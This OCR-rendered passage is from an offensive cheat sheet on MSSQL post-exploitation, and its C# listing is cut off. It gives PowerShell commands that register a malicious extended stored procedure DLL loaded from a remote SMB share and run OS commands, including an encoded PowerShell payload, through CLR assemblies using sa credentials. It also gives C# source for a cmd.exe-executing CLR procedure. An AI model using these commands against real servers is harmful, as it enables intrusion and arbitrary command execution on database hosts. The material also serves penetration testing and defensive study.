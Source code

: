 ### Add the extended stored procedure and list extended stored procedures

```ps1
Create-SQLFileXpDll -OutFile C:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "sp_addextendedproc 'xp_test', '\\10.10.0.1\temp\test.dll'"
Get-SQLQuery -UserName sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Query "EXEC xp_test"
Get-SQLStoredProcedureXP -Instance "<DBSERVERNAME\DBInstance>" -Verbose
```

## CLR Assemblies

Prerequisites:
* sysadmin privileges
* CREATE ASSEMBLY permission (or)
* ALTER ASSEMBLY permission (or)

### Execute commands using CLR assembly

```ps1
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
or
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64>" -Verbose
```

### Manually creating a CLR DLL and importing it

Create a C# DLL file with the following content, with the command : `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs`

```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // Create the record and specify the metadata for the columns.
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
        
        // Mark the beginning of the result set.
        SqlContext.Pipe.SendResultsStart(record);

        // Set values for each column in the row
```